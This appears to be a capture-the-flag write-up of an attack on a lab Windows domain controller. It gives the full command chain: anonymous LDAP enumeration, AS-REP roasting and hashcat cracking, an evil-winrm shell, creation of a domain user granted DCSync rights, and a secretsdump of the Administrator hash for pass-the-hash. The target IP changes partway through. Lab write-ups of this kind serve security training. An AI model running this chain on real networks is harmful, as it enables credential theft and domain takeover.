






**Target IP:** `10.129.16.182`

## Enumeration

### Port Scanning

The initial scan reveals the standard Active Directory service set (DNS, Kerberos, LDAP, SMB) confirming the target is a Windows domain controller.



### LDAP Enumeration

Anonymous LDAP binds are allowed, enabling enumeration of users, computers, and privileged groups without credentials.



```bash
ldapsearch -x -H ldap://10.129.16.182 -b "CN=Users,DC=htb,DC=local"
ldapsearch -x -H ldap://10.129.16.182 -b "CN=Computers,DC=htb,DC=local"
ldapsearch -x -H ldap://10.129.16.182 -b "CN=Domain Admins,CN=Users,DC=htb,DC=local"
ldapsearch -x -H ldap://10.129.16.182 -b "CN=Domain Users,CN=Users,DC=htb,DC=local"
ldapsearch -x -H ldap://10.129.16.182 -b "CN=Enterprise Admins,CN=Users,DC=htb,DC=local"
ldapsearch -x -H ldap://10.129.16.182 -b "CN=Administrators,CN=Builtin,DC=htb,DC=local"
ldapsearch -x -H ldap://10.129.16.182 -b "CN=Remote Desktop Users,CN=Builtin,DC=htb,DC=local"
```

A faster and more readable alternative is [windapsearch](https://github.com/ropnop/windapsearch.git), which automates much of this enumeration.





This enumeration reveals an uncommon service account, `svc-alfresco`, located in the Service Accounts OU. The account has Kerberos pre-authentication disabled, making it vulnerable to AS-REP Roasting.



## Foothold

The AS-REP hash is captured and cracked offline using the rockyou wordlist:

```bash
hashcat -m 18200 hash.hash /usr/share/wordlists/rockyou.txt --force
```

**Credentials obtained:**
- **User:** `svc-alfresco`
- **Password:** `s3rvice`

These credentials provide a shell via WinRM:

```bash
evil-winrm -i 10.129.16.182 -u svc-alfresco -p s3rvice
```

## Privilege Escalation

Further enumeration reveals that the **Exchange Windows Permissions** group holds `WriteDACL` rights over the domain object. Since `svc-alfresco` is a member of **Account Operators**, it can create a new domain user and add that user to the Exchange Windows Permissions group — effectively granting DCSync rights.

```bash
net user john abc123! /add /domain
net group "Exchange Windows Permissions" john /add
net localgroup "Remote Management Users" john /add
```

Using PowerView, the newly created `john` account (now part of Exchange Windows Permissions) is granted DCSync rights directly:

```powershell
$pass = convertto-securestring 'abc123!' -asplain -force
$cred = new-object system.management.automation.pscredential('htb\john', $pass)
Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync
```

With DCSync rights in place, all domain password hashes can be dumped remotely:

```bash
impacket-secretsdump htb/john@10.129.16.204
```

**Result:**

```
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```

This hash can be used directly for a Pass-the-Hash attack to gain full administrative access to the domain controller.